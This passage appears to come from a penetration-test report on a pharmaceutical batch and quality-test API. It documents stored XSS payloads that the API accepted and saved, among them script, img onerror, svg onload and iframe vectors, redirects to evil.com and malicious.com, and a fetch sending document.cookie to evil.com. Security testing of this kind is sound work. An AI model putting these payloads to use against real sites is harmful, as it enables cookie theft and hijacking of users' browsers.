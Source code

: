 **🔴 CRITICAL FINDING: XSS INJECTION SUCCESSFUL**
- **Status**: ✅ **COMPLETELY SUCCESSFUL**
- **Response**: 200 OK - All payloads accepted and stored
- **Database Record**: ID 8 created with malicious scripts
- **Validation**: NONE - All XSS payloads persist in database

#### Successful Response Evidence:
```json
{
  "id": 8,
  "batchId": "<script>alert(\"XSS_BATCH_ID\")</script>",
  "productName": "<img src=x onerror=alert(\"XSS_PRODUCT\")>",
  "manufacturer": "</script><script>document.location=\"http://evil.com\"</script>",
  "manufacturerLicenseId": "<svg onload=alert(\"SVG_XSS\")>",
  "lotNumber": "<iframe src=javascript:alert(\"IFRAME_XSS\")>",
  "location": "<script>fetch(\"http://evil.com/steal?data=\"+document.cookie)</script>",
  "createdAt": "2025-08-21T18:09:09.684Z"
}
```

**Impact Assessment**:
- **Stored XSS**: All malicious scripts persisted in pharmaceutical database
- **Cookie Theft**: Data exfiltration payloads successfully stored
- **Redirection Attacks**: Malicious redirect scripts in manufacturer field
- **Client-Side Execution**: Payloads will execute when viewed in browser

---

### Test 2: Quality Test XSS Injection

#### Comprehensive XSS Payload Testing
```bash
POST /api/quality-tests
{
  "batchId": "<script>alert(\"XSS_TEST\")</script>",
  "testType": "<img src=x onerror=alert(\"TEST_XSS\")>",
  "testResult": "<svg onload=alert(\"RESULT_XSS\")>",
  "testerId": "<script>window.location=\"http://malicious.com\"</script>",
  "testerRole": "<iframe src=javascript:alert(\"ROLE_XSS\")>",
  "testNotes": "<script>document.body.innerHTML=\"HACKED\"</script>"
}
```

**🔴 CRITICAL FINDING: QUALITY TEST XSS BYPASS**
- **Status**: ✅ **COMPLETELY SUCCESSFUL**
- **Response**: 200 OK - Quality test created with XSS payloads
- **Database Record**: ID 11 created with malicious content
- **Regulatory Impact**: Contaminated FDA-regulated quality data

#### Successful Attack Evidence:
```json
{
  "id": 11,
  "batchId": "<script>alert(\"XSS_TEST\")</script>",
  "testType": "<img src=x onerror=alert(\"TEST_XSS\")>",
  "testResult": "<svg onload=alert(\"RESULT_XSS\")>",
  "testerId": "<script>window.location=\"http://malicious.com\"</script>",
  "testerRole": "<iframe src=javascript:alert(\"ROLE_XSS\")>",
  "testNotes": "<script>document.body.innerHTML=\"HACKED\"</script>",
  "createdAt": "2025-08-21T18:09:12.565Z"
}
```

---